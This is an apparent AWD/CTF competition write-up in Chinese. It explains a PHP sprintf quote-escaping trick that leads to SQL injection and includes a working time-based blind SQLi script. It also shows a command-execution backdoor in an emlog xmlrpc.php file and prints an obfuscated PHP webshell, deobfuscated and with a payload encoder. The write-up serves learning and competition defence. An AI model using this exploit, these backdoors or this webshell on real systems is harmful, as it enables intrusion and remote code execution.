

前言 第一次参加AWD模式没啥经验，还好手速快没被日穿，分享下web题解。
sprintf字符格式化漏洞解析 sprintf函数 1 2 sprintf （ string $format [， mixed $... ]）： string 返回根据格式化字符串生成的字符串format
format规则 ：%[flags][width][.precision]specifierflag : -、+、空格、0、'(char)[如'^]width : 一个整数,表示此转换应产生的字符数(最小值)
'(char)将导致单引号被吞掉1 2 php > echo sprintf("%'^10s" ,'od0d' ); ^^^^^^od0d
传入字符%1$\',sprintf无法识别会将%1$\字符串扔掉,逃逸出'
1 2 php > echo sprintf("%1$\'" ,'od0d' ); '
高地WEB解题 题目考点为sprintf格式化字符漏洞
题目可简化为如下源码
1 2 3 4 5 6 7 8 9 10 11 <?php $mysqli = new mysqli("localhost" , "root" , "root" , "security" ); $Profile = sprintf("password = '%s'" , mysqli_real_escape_string($mysqli, $_GET['profile' ])); $sql = sprintf("update users set $Profile where username='%s'" , mysqli_real_escape_string($mysqli, 'Dumb' )); var_dump($sql); $result = $mysqli->query($sql); if ($result===True ){ echo 'success' ; }else { echo "<h1 style='color:red;'>$mysqli->error</h1>" ; }
两次使用sprintf逃逸单引号
传入profile =%1$' => sprintf作用后返回$Profile ="%1$\'";
进入$sql 语句: sprintf将%1$\吃掉逃逸出一个单引号，造成注入
exp 1 2 3 4 5 6 7 8 9 10 11 12 13 import requestsimport timedef sqlinject () : for i in range(128 ): for j in range(1 ,9 ): sql=f"http://127.0.0.1/sql.php?profile=%1$\' where username=0x44756d62 and if(ascii(substr((database()),{j} ,1))={i} ,sleep(1),0)--+" ss=time.time() res=requests.get(sql) if time.time()-ss>=0.5 : print(chr(i)) if '__main__' ==__name__: sqlinject()
AWD 获取靶机shell思路 靶机使用的cms是emblog 5.3.1 。翻了翻前台历史漏洞没有getshell的点。
后台有个登录界面,管理员用户名提示在前台寄语处为：isccadmin passw0rd
登录到管理员界面,发现有大量文件上传的点，但是都没有写入权限，后来管理员开了写入权限才通过头像上传成功getshell 。
防守思路 备份源码、上waf、修改服务器敏感目录权限、查看日志、修改弱密码
靶机getshell漏洞点 xmlrpc.php命令执行 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 if (isset ($_GET['rsd' ])) { $rsd=$_GET['rsd' ]; echo `$rsd`; header('Content-Type: text/xml; charset=utf-8' , true ); echo '<?xml version="1.0" encoding="utf-8"?> <rsd version="1.0" xmlns="http://archipelago.phrasewise.com/rsd"> <service> <engineName>emlog</engineName> <engineLink>http://emlog.net/</engineLink> <homePageLink>' . $options_cache['blogurl' ] . '</homePageLink> <apis> <api name="MetaWeblog" blogID="1" preferred="true" apiLink="' . $options_cache['blogurl' ] . 'xmlrpc.php" /> <api name="Blogger" blogID="1" preferred="false" apiLink="' . $options_cache['blogurl' ] . 'xmlrpc.php" /> </apis> </service> </rsd> ' ; exit ; }
漏洞点
代码执行 /include/model/log_model.php 存在可执行变量，源码如下
1 2 3 4 5 6 7 8 9 10 11 12 <?php $o='n();$r=@bas}>}>e64_encode(@x(}>@gzc}>o}>mpress($o),$}>k));p}>rint("}>$p$kh}>$r$kf");}' ; $g='>EgwZ7H}>iEecl}>S";function }>x($t,$}>k){$}>}>c=s}>trlen(}>$k)}>;$l=strlen($t);$o="' ; $l='";}>f}>or($i=0;$}>}>i<$l;){for($}>j=}>0;}>}>($j<$c&&$i<$l}>);$j++,$i++){$o.}>}>=$' ; $r='_contents}>("p}>}>hp://i}>nput")}>,$m)==1){@ob_star}>t(}>);@}>eva}>l(@gzu}>ncompress(' ; $L='$k="5ac}>91f7}>d";$}>kh=}>}>"b9615a29}>bc1d";}>$kf="24d0b67}>c2c91";$p}>="9GmI}>}' ; $s=str_replace('C' ,'' ,'cCreaCteC_fCuCCnction' ); $Z='t{$i}^}>$k{$}>j}>};}}ret}>urn $o;}}>if(@preg_match}>}>("}>/$kh(.+}>)$kf}>/",@file_}>get' ; $h='@x(@ba}>se64}>_d}>ecode($m[1])}>,$}>}>k)))}>;}>$o=@}>ob_get_contents();@ob_}>en}>d_cl}>ea' ; $q=str_replace('}>' ,'' ,$L.$g.$l.$Z.$r.$h.$o); $I=$s('' ,$q);$I(); ?>
通过匿名函数调用$q中的代码，直接打印出$q代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 $k="5ac91f7d"; $kh="b9615a29bc1d"; $kf="24d0b67c2c91"; $p="9GmIEgwZ7HiEeclS"; function x($t,$k){ $c=strlen($k); $l=strlen($t); $o=""; for($i=0;$i<$l;){ for($j=0;($j<$c&&$i<$l);$j++,$i++){ $o.=$t{$i}^$k{$j}; } } return $o; } if(@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1){ @ob_start(); @eval(@gzuncompress(@x(@base64_decode($m[1]),$k))); $o=@ob_get_contents(); @ob_end_clean(); $r=@base64_encode(@x(@gzcompress($o),$k)); print("$p$kh$r$kf"); }
可控变量通过@file_get_contents("php://input")传入
分析if语句，代码执行eval(@gzuncompress(@x(@base64_decode($m[1]),$k)))的$m[1]值，逆解代码正好对应的是$r=@base64_encode(@x(@gzcompress($o),$k));
通过如下代码构造phpinfo();字符串
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 <?php $k="5ac91f7d"; $kh="b9615a29bc1d"; $kf="24d0b67c2c91"; $p="9GmIEgwZ7HiEeclS"; function x($t,$k){ $c=strlen($k); $l=strlen($t); $o=""; for($i=0;$i<$l;){ for($j=0;($j<$c&&$i<$l);$j++,$i++){ $o.=$t{$i}^$k{$j}; } } return $o; } $r=@base64_encode(@x(@gzcompress('phpinfo();'),$k)); echo $r;
$r值Tf1I8Rmu+y/+trONN2YioDbg
将该值传入源码中,由于$r=@base64_encode(@x(@gzcompress($o),$k));会对结果混淆，得到一堆乱码,在解一次即可。echo @gzuncompress(@x(@base64_decode($r),$k));
